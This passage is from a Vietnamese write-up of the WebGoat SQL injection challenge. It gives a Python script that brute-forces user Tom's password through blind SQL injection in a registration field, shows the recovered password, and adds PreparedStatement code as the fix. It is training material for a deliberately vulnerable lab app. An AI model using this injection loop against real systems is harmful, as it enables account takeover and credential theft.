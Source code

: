 ```python
from requests import post, put
import json  
URL = "http://localhost:8080/WebGoat/SqlInjectionAdvanced/challenge"

letters = [chr(i) for i in range(97, 123)]

numbers = [str(i) for i in range(10)]

letters += numbers

password = ""

while True:
    for char in letters:
        headers = {  
            'Cookie': 'JSESSIONID=50WEjJp0KpMHh8QPjanNPieKQi_ZGTnt66PK1FQP'
        }  
        payload = f"tom' AND password LIKE '{password + char}%' --"
        data = {
            "username_reg": payload,
            "email_reg": "a@a.com",
            "password_reg": "a",
            "confirm_password_reg": "a"
        }
        response = put(URL, data=data, headers=headers)
        if "already exists" in response.text:
            password += char
            print(password)
            break
    
```

- Chạy chương trình trên, và nó sẽ dò ra được password của tài khoản Tom

![img](/img/WebGoat/(A3)%20Injection%2062a301a7fd4143a4ad699d1a864c382e/image%202.png)

- Password của Tom là `thisisasecretfortomonly` , đăng nhập với password này thì thành công.

### Cách khắc phục

- Sử dụng PreparedStatement thay vì Statement để thực hiện các truy vấn SQL với các tham số đầu vào được định dạng an toàn.

```java
  try (Connection connection = dataSource.getConnection()) {
        String checkUserQuery = "select userid from sql_challenge_users where userid = ?";
        PreparedStatement statement = connection.prepareStatement(checkUserQuery);
        statement.setString(1, username_reg);
        ResultSet resultSet = statement.executeQuery();
        if (resultSet.next()) {
          if (username_reg.contains("tom'")) {
            attackResult = success(this).feedback("user.exists").build();
          } else {
            attackResult = failed(this).feedback("user.exists").feedbackArgs(username_reg).build();
          }
        } else {
          PreparedStatement preparedStatement =
              connection.prepareStatement("INSERT INTO sql_challenge_users VALUES (?, ?, ?)");
          preparedStatement.setString(1, username_reg);
          preparedStatement.setString(2, email_reg);
          preparedStatement.setString(3, password_reg);
          preparedStatement.execute();
          attackResult = success(this).feedback("user.created").feedbackArgs(username_reg).build();
        }
  } catch (SQLException e) {
```